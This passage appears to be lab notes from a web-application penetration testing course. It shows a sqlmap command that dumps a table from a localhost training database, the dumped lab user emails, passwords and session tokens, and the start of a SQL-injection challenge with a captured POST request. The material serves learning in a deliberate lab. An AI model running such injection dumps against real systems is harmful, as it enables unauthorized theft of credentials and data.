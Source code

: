 ```bash
# Dump
sqlmap -r req2.txt --level=2 --dump -T injection0x02

Database: peh-labs
Table: injection0x02
[2 entries]
+-------+----------+----------+---------+
| email	| password | username | session |
+-------+----------+----------+---------+
| jeremy@example.com  | jeremy | jeremy | 6967cabefd763ac1a1a88e11159957db |
| jessamy@example.com | ZWFzdGVyZWdn | jessamy  | 9dedc6891e2839a791ed37157f1241fe |
+-------+----------+----------+---------+
```

![](6-webappassets/2025-02-24_22-46-18_907.png)

---

## Injection0x03 - Challenge

- `http://localhost/labs/i0x03.php`
- Find credentials and login into the users table

```bash
# Request
POST /labs/i0x03.php HTTP/1.1
Host: localhost
Content-Length: 28
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="133", "Not(A:Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Linux"
Accept-Language: en-US,en;q=0.9
Origin: http://localhost
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/133.0.0.0 Safari/537.36
```